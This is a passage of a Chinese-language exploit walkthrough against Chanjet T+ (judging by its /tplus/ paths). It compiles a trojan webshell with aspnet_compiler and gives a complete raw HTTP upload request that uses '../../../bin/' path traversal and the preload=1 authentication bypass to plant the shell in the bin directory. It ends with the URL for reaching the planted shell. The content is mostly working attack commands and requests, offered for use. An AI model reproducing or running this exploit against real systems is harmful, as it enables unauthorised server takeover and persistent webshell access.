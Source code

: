 ![](https://gitee.com/fuli009/images/raw/master/public/20220923140136.png)

  

然后CMD 执行

    
    
    C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v /  -p M:\iiss D:/iss -fixednames

-p 代表的是你木马的目录。D:\iss 表示生成在那个目录中。

执行完毕后，查看D:\iss 目录

![](https://gitee.com/fuli009/images/raw/master/public/20220923140137.png)

把这两个文件上传到bin目录中

![](https://gitee.com/fuli009/images/raw/master/public/20220923140138.png)

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 192  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="../../../bin/xx.bin"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--

  

上传完成之后访问如下：

http://192.168.1.77:8080/tplus/111.aspx?preload=1

![](https://gitee.com/fuli009/images/raw/master/public/20220923140140.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923140141.png)

备注一定要加preload=1 这个。不然他还是走了验证的通道

![](https://gitee.com/fuli009/images/raw/master/public/20220923140118.png)
